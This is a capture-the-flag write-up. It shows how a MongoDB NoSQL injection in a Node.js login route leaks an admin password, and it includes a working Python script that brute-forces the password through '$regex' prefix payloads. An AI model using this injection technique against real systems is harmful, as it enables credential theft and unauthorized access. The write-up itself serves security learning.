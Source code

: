 ## HEROS DataBase Breach (Points: 275)

The problem statement goes like this:

![image](https://user-images.githubusercontent.com/98008131/164887944-66b09647-b371-4d27-9e62-7c1ae0b4a118.png)

So we have a link to the actual page and also a download link for the source code. The question also hints us that we need to fiddle with the mongoDB database. Let us download the tar file and unzip it to see its contents. In the file `entrypoint.sh`, we see this bit of code:

![image](https://user-images.githubusercontent.com/98008131/164888016-302383bc-91ac-4551-8fdb-2e27a12ade53.png)

So this suggests that entries `username: admin` and `password: CHTB{f4k3_fl4g_f0r_t3st1ng}` are added to the collection named `users`. This suggests that the username for login must be `admin` and password must be the real flag.

Looking around in the source file, we see the following code in `routes/index.js`:

![image](https://user-images.githubusercontent.com/98008131/164888216-160753b5-ba07-4526-ab40-fe15559408da.png)

So, it destructures `username` and `password` from the body of the request and then does `User.find(username, password)`. We can see that the code doesnt try to find an exact match for the username string and password string, but rather passes them as arguments to `User.find`. So we can pass in objects that look like MongoDB queries as both username and password. We know the username will be `admin`. For the flag, this is what we can do: 

The flag must begin with `wannahack{`, so the first letter is definitely `w`. We can pass the following object as the password, `{"$regex":"^w"}`. This will try to search if there is any entry that has username `admin` and `password` begins with `w`. When it finds that, it will return `{"logged": 1, "message": "Login Successful, welcome back admin."}`. If we instead searched for `x` instead of `w`, it would have given a different response. So by this we can be sure that the flag begins with `w`. When we are sure of that, we can go further and check `wa`, `wb`, and so on. It will return success message everytime we correctly guess first few letters of the flag. Trying to exploit this, we come up with the following code:

```python
import requests
import string

url = "http://wannahack.copsiitbhu.co.in:2437/"
headers = {"content-type": "application/json"}

leaked_data = list("wannahack{")

while True:
	for character in string.printable:
		if character not in ['*', '+', '.', '?', '"', '\\']:

			print(f"trying {''.join(leaked_data) + character}")

			payload = (
				'{"username": {"$eq": "admin"}, "password": {"$regex":"^%s"}}'
				% (''.join(leaked_data) + character,)
				)

			r = requests.post(url + 'api/login', data=payload, headers = headers)

			if r.json() == {
			"logged": 1,
			"message": "Login Successful, welcome back admin."
			}:
				leaked_data.append(character)
				break
```

Running the code, we brute force through every letter one by one until we finally achieve the password. The code output goes as follows after running some time:

![image](https://user-images.githubusercontent.com/98008131/164888724-db6131b4-213f-4484-b1b2-d4eda5bdbf73.png)

Tinkering with the output, we get that the flag is `wannahack{y0u_5u5t_H@ck3d_M0NG0_D5}`
